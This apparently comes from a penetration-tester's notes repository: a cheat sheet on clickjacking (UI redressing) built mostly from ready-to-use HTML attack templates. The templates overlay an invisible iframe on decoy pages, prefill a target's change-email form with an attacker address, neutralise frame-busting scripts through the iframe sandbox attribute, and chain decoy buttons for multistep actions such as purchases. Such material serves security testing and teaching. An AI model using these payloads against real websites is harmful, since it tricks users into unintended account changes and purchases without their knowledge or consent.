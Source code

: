 # Clickjacking (UI redressing)

Clickjacking, also known as a 'UI redress attack,' is a malicious technique where an attacker tricks a user into clicking on something different from what the user perceives, effectively hijacking their clicks to perform unintended actions, often without their knowledge or consent.

### Table of content

- [how it works](#how-it-works)
- [default payload](#default-payload)
- [Clickjacking with prefilled form input](#clickjacking-with-prefilled-form-input)
- [Frame busting scripts](#frame-busting-scripts)
- [Combining clickjacking with a DOM XSS attack](#combining-clickjacking-with-a-dom-xss-attack)
- [Multistep clickjacking](#multistep-clickjacking)

## How it works ? 

The idea of the exploit is to create a fake website wich contain in background the target website load with `<iframe>` with opacity 0. Create a fake button, situated exaclty over a real button on the target site, and when the user gonna click on the button, it gonna click on the target web site's button.

## Default payload

Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:

```html
<html>
    <head>
        <style>
            #target_website {
                position:relative;
                width:800px;
                height:600px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://vulnerable-website.com">
        </iframe>
    </body>
</html>
```

## Clickjacking with prefilled form input

If you want the user submit a form on the target website, you can try prefill the form input by giving the value in URL parameters.

this iframe:

```html
<iframe id="target_website" src="https://vulnerable-website.com">
```

could be change to:

```html
<iframe id="target_website" src="https://vulnerable-website.com/change-email?email=pwn@gg.com">
```

## Frame busting scripts

Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites.

An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 

When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

```html
<iframe id="target_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

*:warning: Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled.*


## Combining clickjacking with a DOM XSS attack

Clickjacking is highly effective in coercing users into performing malicious actions.

[xss cheat sheet](/web/xss.md)

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.

example:

```html
<html>
    <head>
        <style>
            #target_website {
                position:relative;
                width:800px;
                height:600px;
                opacity:0.00001;
                z-index:3;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                top: 495;
                left: 77;
                }
            #decoy_two {
                position:absolute;
                width:300px;
                height:400px;
                z-index:2;
                top: 255;
                left: 200;
            }
        </style>
    </head>
    <body>
        <div id="decoy_website">
            <button class="button" type="submit">Click me first</button>
        </div>
        <div id="decoy_two">
            <button class="button" type="submit">Click me next</button>
        </div>
        <iframe id="target_website" src="https://vuln.net/my-account">
        </iframe>
    </body>
</html>
```

---

[**:arrow_right_hook: Back home**](/README.md)